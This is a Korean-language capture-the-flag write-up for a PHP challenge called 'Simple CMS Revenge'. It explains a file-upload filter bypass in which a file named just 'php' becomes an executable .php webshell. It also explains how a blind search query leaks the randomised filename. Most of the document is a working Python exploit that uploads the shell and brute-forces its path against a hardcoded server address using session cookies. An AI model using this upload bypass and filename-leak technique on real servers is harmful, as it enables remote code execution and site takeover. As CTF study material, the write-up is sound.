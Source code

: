 ## Simple CMS Revenge

- 취약점 타입
  1. WebShell
  2. Leak Information



- WebShell 취약점

classes/Report_lib.class.php Line : 23 

````php
$file_name = $file['name'];
....
$file_name = check_filename($file_name);
````

file_name 변수에 _FILES로 받은 파일이 들어가는데 이 값을 chekc_filename 함수로 체크를 한다

functions/lib.php Line : 40

```php
function check_filename($fn){
	$fn = preg_replace('/[^a-z0-9A-Z\.]/i', '', $fn);	
	if(preg_match("/\.(ph|htm|py|rb|ruby|jsp|asp|cgi|ht|htaccess)/is", $fn)){
		return false;
	}
	return $fn;
}
```

함수를 보면 a-z0-9A-Z.를 제외한 모든 스트링을 공백으로 바꾸고, 파일명이 .php, .pht. .jsp이 포함 되어있으면 필터링을 한다.

하지만 test.php은 필터링을 하지만 파일명을 'php' 로만 첫번째 파트가 우회가 된다.

파일명이 php인데 웹쉘이 가능한 이유는 다음 함수 때문이다.

```php
function set_filename($fn){
	$fn = array_pop(explode('.', $fn));
	$fn = bin2hex(rand_str(15)) . '_'. ip2long($_SERVER['REMOTE_ADDR']) . '.' . $fn;

	return $fn;
}
```

filename을 인자로 받는 set_filename은 확장자를 걸러내주기 위해 .로 문자열을 split한다음에 배열중 맨 마지막을 pop해서 값을 가져온다 



하지만 파일명이 php이므로 .을 split 해봤자 결과는 array('php') 일것이다 그리고 그 값을 pop 해준다음



randome_str.php 이런식으로 결과가 완성이 되고 파일이 업로드 될것이다.

그리고 이 파일 이름을 릭 해야 되는데 이건 검색 기능을 이용해서 알아낼수가 있다.



```php
function action_search(){
	$column = Context::get('col');
	$search = Context::get('search');
	$type = strtolower(Context::get('type'));
	$operator = 'or';
	
	if($type === '1'){
		$operator = 'or';
	}
	else if($type === '2'){
		$operator = 'and';
	}
	if(preg_match('/[^a-zA-Z0-9\|]/is', $column)){
		$column = 'title';
	}
	
	$query = get_search_query($column, $search, $operator);

	$query = "id='{$_SESSION['id']}' and ".$query;
	$result = DB::fetch_multi_row('report', '', '', '0, 10','idx desc', $query);
	include(CMS_SKIN_PATH . 'report.php');
}
```

exploit code

```python
import requests


#header = {'Cookie': 'PHPSESSID=erj64ibm3fah50bmr15065j0a1'} #local
header ={'Cookie': 'PHPSESSID=incfj5egnoo503jhe5p1h0jhb5'}
def find_path(condtion, path):	
	ascii_table = '0123456789abcdef_'
	for _str in ascii_table:
		if condtion == '1':
			try_str = path + _str
		else:
			try_str = _str + path
		#url = 'http://127.0.0.1/simple_cms_revenge/index.php?act=report&mid=search&col=file&type=1&search={}'.format(try_str)
		url = 'http://211.117.60.187/index.php?act=report&mid=search&col=file&type=1&search={}'.format(try_str)
		if requests.get(url, headers=header).text.find('<tr><td>Did</td><td>you</td><td>find</td><td>a bug?</td></tr>') == -1:
			return _str
	return False

		

#url = "http://127.0.0.1/simple_cms_revenge/index.php?act=report&mid=write"
url = "http://211.117.60.187/index.php?act=report&mid=write"
data  =  {
	"title": "hello",
	"content": "cottent",
}
f = {
	'image': open('php', 'rb')
}

if requests.post(url, headers=header, files=f, data=data).text.find('report!') != -1:
	print 'upload shell'

	path = '.php'
	while True:
		tmp = find_path('1', path)
		if tmp == False:
			break
		path += tmp
		print path
	while True:
		tmp = find_path('2', path)
		if tmp == False:
			break
		path = tmp + path
		print path

print 'you can get shell data/simple_cms_upload/report/{}'.format(path)

```



